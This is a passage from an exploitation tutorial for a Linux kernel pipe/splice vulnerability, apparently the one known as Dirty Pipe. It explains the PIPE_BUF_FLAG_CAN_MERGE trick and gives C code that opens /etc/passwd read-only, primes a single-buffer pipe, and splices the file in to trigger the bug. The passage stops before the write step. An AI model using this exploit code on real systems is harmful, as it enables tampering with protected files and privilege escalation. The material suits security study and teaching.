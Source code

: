 ## Exploitation

To exploit this vulnerability, we need to allocate a pipe and open a file to which we have only read-only access, to test whether we can actually write to it. Before splicing that file, we must ensure that the pipe’s `PIPE_BUF_FLAG_CAN_MERGE` flag is set. To set that flag, we will write to the pipe and then read from it. This drains the pipe and frees the pages, but the flag remains set.

By default, a pipe has `16` buffers and each can hold `4096` bytes. For simplicity, we can change the pipe size to reduce the number of pipe buffers to `1`, which helps us reach the goal faster. One important thing to note is that draining this single pipe buffer completely is mandatory before splicing a file into it.

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>

#define TARGET_FILE "/etc/passwd"

int main() {
    int fd;
    int pipefd[2];
    char buffer[4096];

    // 1. Create pipe and open target file
    if ((fd = open(TARGET_FILE, O_RDONLY)) == -1) {
        perror("open");
        return 1;
    }

    if (pipe(pipefd) == -1) {
        perror("pipe");
        return 1;
    }

    // 2. Shrink the pipe to 4096 bytes, fill the pipe and then drain it
    fcntl(pipefd[0], F_SETPIPE_SZ, sizeof(buffer));
    write(pipefd[1], buffer, sizeof(buffer));
    read(pipefd[0], buffer, sizeof(buffer));

    return 0;
}

```

Since the path to the vulnerable function `copy_page_to_iter_pipe()` is via `splice` and goes through `splice_file_to_pipe()`, we will perform a `splice` from the target file to the pipe. Because `copy_page_to_iter_pipe()` will obtain the file's cached page, the buffer's page will be replaced with the file's. Subsequent writes to the pipe should modify the file's page, even though the file is read-only. The splice size will be `1` to use the smallest possible value to trigger the vulnerability.

```c
// 3. Trigger the vulnerability via splice 
	if (splice(fd, NULL, pipefd[1], NULL, 1, 0) < 0) { 
		perror("splice"); 
		close(fd); 
		close(pipefd[0]); 
		close(pipefd[1]); 
		return 1; 
	}
```
